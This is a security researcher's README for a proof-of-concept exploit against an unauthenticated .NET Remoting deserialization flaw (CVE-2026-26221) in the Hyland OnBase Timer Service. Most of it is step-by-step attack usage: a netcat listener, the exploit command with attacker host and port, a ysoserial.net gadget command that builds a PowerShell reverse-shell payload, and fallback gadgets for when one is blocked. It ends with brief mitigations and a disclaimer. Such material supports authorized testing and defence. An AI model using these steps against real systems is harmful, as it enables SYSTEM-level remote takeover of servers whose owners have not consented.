

# 📡 Hyland OnBase Timer Service Unauthenticated RCE

<p align="center">

## Mohammed Idrees Banyamer 

### Security Researcher

**Jordan 🇯🇴**


</p>

---

## 🧨 Overview

This repository contains a Proof‑of‑Concept exploit for **Hyland OnBase Timer Service** unauthenticated remote code execution vulnerability via insecure **.NET Remoting BinaryFormatter deserialization**.

The vulnerability allows an unauthenticated attacker to send a crafted BinaryFormatter payload to the Timer Service endpoint and execute arbitrary code as **NT AUTHORITY\SYSTEM**.

* **Product:** Hyland OnBase Workflow / Workview Timer Service
* **Port:** 8900/TCP
* **Auth:** Not required
* **Impact:** Remote Code Execution
* **Privileges:** SYSTEM
* **CVE:** CVE‑2026‑26221
* **CVSS:** 9.8 (Critical)

---

## ⚙️ Technical Details

The Timer Service exposes a .NET Remoting endpoint:

```
http://TARGET:8900/TimerServiceAPI.rem
```

The service accepts unauthenticated BinaryFormatter objects.
By supplying a malicious gadget chain (ysoserial.net), arbitrary command execution occurs during deserialization.

---

## 📦 Requirements

* Python 3
* requests
* ysoserial.net
* netcat listener
* Windows payload generation environment (Windows / Mono / Wine)

Install Python dependency:

```bash
pip install requests
```

Download ysoserial.net:

```bash
git clone https://github.com/pwntester/ysoserial.net
```

---

## 🚀 Usage

### 1️⃣ Start Listener

```bash
nc -lvnp 4444
```

---

### 2️⃣ Run Exploit

```bash
python3 exploit.py 192.168.10.50 --lhost 192.168.1.100 --lport 4444
```

---

### 3️⃣ Generate Payload

The script prints a ysoserial command.
Run it in another terminal (Windows / Mono):

```bash
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c "powershell ..." -o raw > rev_shell.bin
```

---

### 4️⃣ Send Payload

Press ENTER in exploit terminal after payload generation.

If vulnerable → reverse shell connects.

---

## 🧪 Example

```bash
python3 exploit.py 10.10.10.123 --lhost 192.168.5.77 --lport 9001
```

---

## 🔧 Options

| Option     | Description                                  |
| ---------- | -------------------------------------------- |
| target     | Target IP or hostname                        |
| --port     | Timer Service port (default 8900)            |
| --endpoint | TimerServiceAPI.rem / TimerServiceEvents.rem |
| --lhost    | Attacker IP                                  |
| --lport    | Listener port                                |
| --gadget   | ysoserial gadget chain                       |

---

## 🧯 Notes

* Exploit is **blind**
* Success = reverse shell callback
* Service runs as SYSTEM
* Try alternate gadget if blocked:

  * TextFormattingRunProperties
  * ObjectDataProvider

---

## 🛡️ Mitigation

* Apply Hyland security advisory OB2025‑03 patches
* Disable .NET Remoting exposure
* Restrict port 8900 access
* Monitor BinaryFormatter usage

---

## 📊 PoC Attack Flow



---

## ⚠️ Disclaimer

This exploit is provided for:

* Security research
* Authorized penetration testing
* Defensive validation

Unauthorized use against systems you do not own or have permission to test is illegal.

---
